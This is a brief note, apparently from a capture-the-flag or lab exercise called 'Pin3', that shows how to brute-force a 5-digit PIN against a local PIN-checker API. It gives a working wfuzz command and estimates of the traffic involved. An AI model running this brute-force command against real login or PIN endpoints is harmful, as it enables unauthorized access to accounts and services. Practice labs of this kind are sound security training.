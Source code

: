 ## Pin3
Bruteforcing a 5-digit pin towards a PIN-checker API.

Use e.g. wfuzz:
  seq -w 1 99999 | wfuzz -X POST -d "pin=FUZZ" -u http://localhost:36963/api/checkpin -z stdin --hc 401

Each request is ~220 bytes
Each reply   is ~315 bytes

===> ~3MB data received and ~4MB data sent for a successful brute (1 -> 12945)
